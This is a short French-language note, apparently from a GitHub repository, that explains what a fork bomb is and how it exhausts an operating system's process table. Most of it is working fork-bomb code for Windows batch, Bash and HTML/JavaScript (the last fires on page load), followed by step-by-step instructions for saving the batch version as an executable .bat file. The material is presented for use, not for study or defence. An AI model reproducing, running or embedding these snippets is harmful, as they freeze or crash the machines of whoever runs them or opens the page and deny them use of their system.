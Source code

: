 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb2.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[github.com /Altherneum/.github /blob/main /note /OS/Linux /forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[github.com /Altherneum/.github /blob/main /note /Code/Web/HTML /forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/HTML/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)
